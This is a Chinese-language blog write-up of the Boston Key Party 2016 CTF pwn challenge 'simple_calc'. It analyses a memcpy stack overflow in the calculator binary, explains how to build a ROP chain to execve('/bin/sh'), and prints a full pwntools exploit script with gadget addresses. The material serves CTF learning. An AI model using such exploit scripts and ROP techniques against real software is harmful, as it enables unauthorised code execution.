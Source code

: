 <!--yml
category: 未分类
date: 2022-04-26 14:43:40
-->

# boston-key-party-2016-pwn-simple_calc 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/113841290](https://blog.csdn.net/A951860555/article/details/113841290)

# 文件信息

该样本来自2016年boston-key-party ctf的一道pwn题–[simple_calc](https://download.csdn.net/download/A951860555/15345410)
检查样本信息：
  只开启了NX保护，64位小端程序
![checksec](img/539c01bd6c53fd549ab63d962b308aa2.png)

# 漏洞定位

将样本拖入IDA进行分析时，会发现text段特别多，仔细分析后会发现很多函数都没有被使用，写完wp后，我猛然发现引用这么多看似无用的text段，其实是为了引用更多的gadget，方便后面ROP链的构造。好的，废话不多说，进行漏洞分析。
分析main函数，可以发现该样本是一个菜单题，先要求输入计算的次数，输入的次数必须大于3小于等于255，正确输入后会以该值作为菜单功能循环的次数。这里直接展示程序的运行截图，如下图所示：
![pro](img/dcebafdad8b4382241b48d20e1ae5459.png)
初步了解程序功能后，我们再详细的分析一下IDA中的伪代码，如下图所示，初次输入的值存入v24变量中，然后程序会以4倍该值的大小分配一个内存块，v25变量指向该内存地址。
![main_pre](img/85b3fc3f1b8bdcbf5e65fcc69888e61d.png)
接着看一下switch语句，和程序功能运行截图一样，有加减乘除以及退出5个功能，且每个功能执行后都将一个dword四字节大小的值赋值给了`v25+4*i`的内存位置。然后注意一下memcpy函数，其中第一个参数v22变量位于栈空间，v25是分配的堆空间，`4*v24`是拷贝的内存大小，我们可以控制v24的大小造成缓冲区溢出。
![switch](img/621fab412b6b3c346258b29323bd2d4e.png)
最后我们分析一下菜单函数的具体功能，具体分析后我们可以发现每个函数实现方式都大同小异，区别在于变量的存放位置和加减乘除运算。这里我们对比上面的switch分支语句分析add函数，其余函数类同，可以发现之前拷贝到`v25+4*i`内存地址的值是这里加法运算后的结果dword_6CA88，该变量位于bss段，是全局变量，还有一点值得注意的是，加法的两个操作数不能小于0x27。
![add](img/9ce6bc5fd1851b5c018f57f926791cee.png)

# 利用分析

经过上面的分析，我们已经发现了一个溢出漏洞，以及可以通过每次菜单功能的调用实现一次内存写。如果该题目没有开启NX保护的话，我们可以采用写入shellcode的方式，但由于开启了NX保护，所以采用构造ROP链的方式。即构造ROP链，通过程序的每次计算将ROP链的地址写入到内存中，最后退出时执行memcpy实现缓冲区溢出，执行ROP链，实现execve("/bin/sh", NULL, NULL)的系统调用。这里对于如何控制寄存器实现系统调用原理不熟悉的读者可以参考[这篇博文](https://blog.csdn.net/A951860555/article/details/110936441)。另外寻找gadget采用的是ROPgadget工具，不了解的读者可以百度一下。

# wp

```
from pwn import *

p = process("./simple_calc")

calc_time = "255"
p.sendlineafter("calculations: ", calc_time)

def add(num1, num2):
    p.sendlineafter("=> ", "1")
    p.sendline(num1)
    p.sendline(num2)

def sub(num1, num2):
    p.sendlineafter("=> ", "2")
    p.sendline(num1)
    p.sendline(num2)

for i in range(18):
    sub("40", "40")

pop_rsi = 0x401c87
pop_rdx = 0x437a85
pop_rax = 0x44db34
pop_r12 = 0x400493
syscall = 0x400488
mov_rdi_rsp_call_r12 = 0x492468

add("2100803", "2100804")
sub("40", "40")
sub("40", "40")
sub("40", "40")

add("2211138", "2211139")
sub("40", "40")
sub("40", "40")
sub("40", "40")

add("2256282", "2256282")
sub("40", "40")
sub("118", "59")
sub("40", "40")

add("2097737", "2097738")
sub("40", "40")
add("2097732", "2097732")
sub("40", "40")

add("2396724", "2396724")
sub("40", "40")

add("926200087", "926200088")
add("3422615", "3422616")

p.sendlineafter("=> ", "5")
p.interactive() 
```

# 总结

该题目虽然漏洞比较明显，利用的方式也不难想出，出题人也把简单易于构造的gadget都给我们了。但整个exp实现下来，所耗费的时间也比较多，也有许多细节问题需要注意，比如每次读入的是4个字节，而该程序是64位的，所以构造一个地址需要两次读入；同时最后构造`/bin/sh\x00`字符串时也要注意到小端序的问题。